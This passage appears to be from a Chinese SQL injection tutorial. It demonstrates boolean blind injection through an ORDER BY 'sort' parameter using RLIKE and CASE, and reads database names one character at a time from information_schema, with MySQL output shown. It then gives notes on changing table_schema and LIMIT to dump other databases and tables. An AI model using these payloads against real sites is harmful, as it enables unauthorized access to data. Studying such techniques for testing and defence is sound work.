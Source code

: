 

web语句: http://www.test.com/sql.php?sort=1 RLIKE (CASE WHEN (substring((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1)='i') THEN 1 ELSE 0x28 END);



读取1库库名第一个字: select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1)='i') THEN 1 ELSE 0x28 END);



```plain
mysql> select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1)='i') THEN 1 ELSE 0x28 END);
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | 1    | 1       |
|  2 | 2    | 2    | 2       |
|  3 | 3    | 3    | 3       |
+----+------+------+---------+
3 rows in set (0.00 sec)
```



读取1库库名第二个字: select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),2,1)='n') THEN 1 ELSE 0x28 END);



```plain
mysql> select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),2,1)='n') THEN 1 ELSE 0x28 END);
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | 1    | 1       |
|  2 | 2    | 2    | 2       |
|  3 | 3    | 3    | 3       |
+----+------+------+---------+
3 rows in set (0.00 sec)
```

## 0x04 猜表名

注意: table_schema=xxx 修改为其他库会爆出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据



注意: LIMIT 0 修改会爆出不同的表名

例如:

LIMIT 0,1 修改为0 就是出1表
